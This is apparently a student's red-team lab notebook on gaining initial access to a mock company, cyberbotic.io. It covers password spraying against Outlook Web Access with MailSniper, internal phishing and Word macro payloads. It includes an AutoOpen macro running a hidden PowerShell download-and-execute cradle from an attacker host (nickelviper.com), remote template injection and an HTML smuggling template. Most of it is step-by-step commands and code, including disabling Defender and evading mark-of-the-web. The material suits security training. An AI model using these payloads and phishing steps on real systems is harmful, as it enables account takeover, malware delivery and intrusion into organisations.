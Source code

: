 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo .\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
     1. ```cd /mnt/c/Users/Attacker/Desktop/```
     2. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
  8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```python ./namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022```


## Internal Phishing
With the credentials of a legit internal user, many doors open, e.g.:
* Emails that may contain sensitive information such as documents, usernames, and passwords
* Send internal emails on behalf of the user, containing specially crafted files/links, or even download a document already in an inbox, backdoor it (e.g. with a macro) and send it back to somebody

## Initial Access Payloads
Two options for delivering a payload that will execute on their system:

1. Send a URL from which a payload can download
2. Attach a payload to the phishing email

## Initial Access Payloads

Files emailed "internally" from a compromised Exchange mailbox are not tagged with a Zone Identifier, and won't have the "mark of the web" (MotW) and come under greater scrutiny.

Check to see whether a file has the MotW: ```gc .\test.txt -Stream Zone.Identifier```. The zones ```gc``` reports are: 

  0. Local computer
  1. Local intranet
  2. Trusted sites
  3. Internet
  4. Restricted sites

## Visual Basic for Applications (VBA) Macros

Docs containing macros are handled with more scrutiny. Create a macro in a Word document by:

1. In CS: Attacks > Scripted Web Delivery (S)
2. Make a 64-bit PowerShell payload for your HTTP listener
  3. URI: anything
  4. Local host: nickelviper.com
  5. Local port: 80
  6. Listener: http
  7. Type: powershell
  8. Use x64 payload
9. This creates a payload hosted on the team server so it can be downloaded over HTTP and executed in-memory; paste into a Word macro (below): ```Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""```
1. In Word: View > Macros > Create
2. Change the "Macros in" field to the document name
3. Basic macro:
    ```
    Sub AutoOpen()
    
      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
      Shell.Run "<command>"
    
    End Sub
    ```
4. If the Office license doesn't allow macros, run a Command Prompt as admin:
    ```
    cd C:\Program Files\Microsoft Office\Office16
    cscript ospp.vbs /rearm
    ```
5. In Word: File > Info > Inspect Document > Inspect Document, click Inspect then Remove All next to Document Properties and Personal Information
6. File > Save As and save to C:\Payloads. Any filename, and Save as type: Word 97-2003 (.doc) (.docm usually gets flagged/blocked)
7. Host the file: in CS: Site Management > Host File
  1. File: <payload .doc file>
  2. Local URI: /<file>
  3. Local host: nickelviper.com // an appropriate looking URL you control or a hosting service like OneDrive would be more legit
  4. Local port: 80
  5. Mime type: automatic
8. Open an HTML email template for Office 365 in a browser from https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365
9. Copy the content and paste into the OWA text editor (if you attach the document directly to the email it will not have MotW and won't open in Protected View)
10. Change text/URL as appropriate, e.g. http://nickelviper.com/file.doc, and send email
11. Log into Workstation 2 as Bob, launch Outlook, and the email will arrive.
12. The file will still have the macro security warning; real phishing campaigns add text e.g. "Shoddy Security Suite has scanned the content and it is safe. To show file, click Enable Content".
13. Once clicked, a PS window will open and close quickly
14. A new beacon will appear in CS

## Remote Template Injection

Using Word's ability to create a doc from a template, which may hold a macro that executes arbitrary code.

1. Attacker Desktop: Open Word > New document
2. Insert desired macro
3. Save to C:\Payloads as Word 97-2003 Template (*.dot) file
4. CS: host template at http://nickelviper.com/template.dot
5. Word: create new document from the blank template at C:\Users\Attacker\Documents\Custom Office Templates
6. Add some content and save it as C:\Payloads\<file>.docx.
7. Explorer: right-click on file and select 7-Zip > Open archive
8. Navigate to word > _rels, right-click on settings.xml.rels and select Edit
9. Replace Target entry in the XML with "http://nickelviper.com/template.dot"
10. Save those changes and email the document to Bob
11. The file still gives a warning about macros but allowing them will execute the macro in the hosted template, creating a beacon in CS

[remoteinjector](https://github.com/JohnWoodman/remoteinjector) automates this process: ```python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx```

## HTML Smuggling

Using JavaScript to hide files from content filters. Email and web scanners can remove these. Embed the payload into HTML and use JavaScript to construct URLs by the browser at runtime to evade this.

Template:
```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

There are no hardcoded hyperlinks and the content type of the page itself is just text/html.

Use ```echo -en "This is a smuggled file" | base64``` to generate a base64-encoded text file that will download when the page is browsed wihtout any user interaction. This file has MotW however.

### Quick and dirty Python web server for testing
```python3 -m http.server 8080```


